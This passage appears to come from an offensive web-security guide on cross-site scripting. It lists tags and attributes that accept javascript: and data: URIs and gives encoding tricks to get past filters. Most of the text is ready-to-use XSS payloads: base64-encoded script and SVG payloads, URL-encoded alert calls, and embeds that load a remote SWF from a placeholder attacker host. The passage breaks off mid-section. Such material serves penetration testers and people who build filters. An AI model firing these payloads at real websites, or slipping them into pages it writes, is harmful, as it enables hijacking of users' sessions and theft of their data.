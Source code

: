 **Places where you can inject these protocols**

**In general** the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** (but not `<img`)

```html
<a href="javascript:alert(1)">
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
<form action="javascript:alert(1)"><button>send</button></form>
<form id=x></form><button form="x" formaction="javascript:alert(1)">send</button>
<object data=javascript:alert(3)>
<iframe src=javascript:alert(2)>
<embed src=javascript:alert(1)>

<object data="data:text/html,<script>alert(5)</script>">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+" type="image/svg+xml" AllowScriptAccess="always"></embed>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>
<iframe src="data:text/html,<script>alert(5)</script>"></iframe>

//Special cases
<object data="//hacker.site/xss.swf"> .//https://github.com/evilcos/xss.swf
<embed code="//hacker.site/xss.swf" allowscriptaccess=always> //https://github.com/evilcos/xss.swf
<iframe srcdoc="<svg onload=alert(4);>">
```

**Other obfuscation tricks**

_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Moreover, there is another **nice trick** for these cases: **Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```

Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

**Using Hex and Octal encode with `javascript:`**

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` (at least) to declare **HTML tags to execute JS**:
